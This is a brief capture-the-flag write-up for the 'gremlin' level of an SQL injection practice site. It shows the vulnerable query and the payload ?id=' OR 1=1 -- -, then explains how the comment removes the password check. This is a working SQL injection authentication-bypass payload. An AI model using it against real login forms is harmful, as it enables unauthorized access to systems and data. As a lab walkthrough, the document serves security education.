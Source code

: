 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 1
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/18cc31d8-0f98-466a-84f6-3d68bf23ab5f)

We are provided with the SQL query:

```sql
SELECT id FROM prob_gremlin WHERE id='{$_GET[id]}' AND pw='{$_GET[pw]}'
```

In order to make the result of this query `True`, we can provide the following URI parameter:

```
?id=' OR 1=1 -- -
```

The resultant query then becomes:

```sql
SELECT id FROM prob_gremlin WHERE id='' OR 1=1 -- -' AND pw=''

## Queried part:
SELECT id FROM prob_gremlin WHERE id='' OR 1=1

## Commented part:
AND pw=''
```

Since 1=1 is always true, the result of the `OR` operation will always be `True`.

![2](https://github.com/Kunull/Write-ups/assets/110326359/002d0b4e-53d5-41f0-a173-50f3058c5302)
